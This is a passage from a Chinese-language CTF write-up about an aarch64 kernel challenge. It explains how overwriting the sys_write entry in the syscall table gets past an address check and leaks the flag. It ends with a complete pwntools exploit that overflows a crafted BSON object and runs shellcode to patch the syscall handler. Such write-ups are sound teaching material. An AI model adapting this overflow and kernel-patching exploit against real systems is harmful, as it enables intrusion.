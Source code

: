 调`sys_read(fd, 0xffff000000087140, 1)`之后，系统调用表中的`sys_write ptr`便被写为`0xffff000000082a60`

[![](https://p3.ssl.qhimg.com/t0159340c32490f5dd1.png)](https://p3.ssl.qhimg.com/t0159340c32490f5dd1.png)

再调用`sys_write`便能绕过`addr <= 0xffff`的 check，打印出 flag

[![](https://p0.ssl.qhimg.com/t0129ce4566428ea007.png)](https://p0.ssl.qhimg.com/t0129ce4566428ea007.png)

Script
------

完整 EXP

```
from pwn import *
import bson

context.arch = 'aarch64'

obj = {
    'CVC': 545,
    'MON': 1,
    'YR': 2021
}
bs = bson.dumps(obj)

bs = bs[:-1]
bs += b'\x02'
bs += b'CC'
bs += b'\x00'
bs += p32(0x10)
bs += b'B'*(0x18)
bs += p64(0xfc46)#ret addr

shellcode = '''ldr x0,=0x6e75722f   // /run
mov x1, 0x0
stp x0, x1, [sp]
mov x0, sp
mov x5, 0x340        // SYS_open
blr x5

mov x4, x0           // save file descriptior
mov x1, 0x3a2        // offset of 0x60 in order to change SYS_write to after check
mov x2, 0x0
mov x5, 0x364        // SYS_lseek
blr x5

mov x0, x4                   // move saved file desc
ldr x1, =0xffff000000087140  // syscall handler for write
mov x2, 0x1                  // count
mov x5, 0x34c                // SYS_read
blr x5

ldr x0, =0xffff000000088858  // addr of the flag
mov x2, 0x36                 // count
mov x5, 0x310                // SYS_write
blr x5'''

payload = asm(shellcode)
bs += payload + b'\x00'
bs += b'\x00'

#print(hexdump(bs))
print(b64e(bs)+' ')
```